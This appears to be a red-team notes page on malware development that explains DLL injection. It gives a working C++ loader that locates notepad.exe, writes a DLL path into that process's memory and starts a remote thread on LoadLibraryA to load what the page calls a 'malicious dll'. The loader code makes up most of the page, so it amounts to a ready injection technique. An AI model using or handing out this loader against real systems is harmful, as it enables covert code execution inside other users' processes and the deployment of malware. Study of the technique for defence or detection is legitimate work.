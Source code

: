 ```yaml
---
title: DLL Injection
category: Maldev-Code Injection
order: 3
---
```


DLL injection is a technique used for running code within the address space of another process by forcing it to load a dynamic-link library.

It is similar concept to payload injection, but instead to inject the shellcode we are going to inject the dll module on the disk. **The dll should be stored on the filesystem**, the dropper can implment a download from a server or simply write it to disk manually.

In this technique we are going to create a empty buffer on the target proccess with `VirtualAllocEx` but instead of allocate the payload it will allocate the path of our dll with `WriteProcessMemory`. The reason to store the dll on a disk is because the process needs to use the system loader to initialize it properly.

With `LoadLibraryA` we can load the library on the remote process. To do that we just need to create a remote thread in the target process which calls `LoadLibraryA` with our dllpath as an argument.

If `kernel32.dll` is loaded on the loader we can use `GetProcAddress` to get `LoadLibraryA` address.

```cpp
int main(int argc, char *argv[]) {
    
    HANDLE pHandle;
    PVOID remBuf;
    PTHREAD_START_ROUTINE pLoadLibrary = NULL;
    char dllname[] = "C:\\Tools\\rtnotes\\rtnotes.dll";
    char target[] = "notepad.exe";
    int pid = 0;
    
    
    pid = FindProcess(target);
    if ( pid == 0) {
        printf("Target NOT FOUND! Exiting.\n");
        return -1;
    }

    printf("Target PID: [ %d ]\nInjecting...", pid);

    pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress( GetModuleHandle("Kernel32.dll"), "LoadLibraryA");

    pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));

    if (pHandle != NULL) {
        remBuf = VirtualAllocEx(pHandle, NULL, sizeof(dllname), MEM_COMMIT, PAGE_READWRITE); 
    
        WriteProcessMemory(pHandle, remBuf, (LPVOID) dllname, sizeof(dllname), NULL);

        CreateRemoteThread(pHandle, NULL, 0, pLoadLibrary, remBuf, 0, NULL);
        printf("done!\nremBuf addr = %p\n", remBuf);

        CloseHandle(pHandle); 
    }
    else {
        printf("OpenProcess failed! Exiting.\n");
        return -1;
    }
    return 0
}
```

Here we can see how the payload is executed.

![](/rtnotes/images/dll-injection-01.png)

The `rtnotes.dll` malicious dll was successfully loaded on the remote process `notepad.exe`.

![](/rtnotes/images/dll-injection-02.png)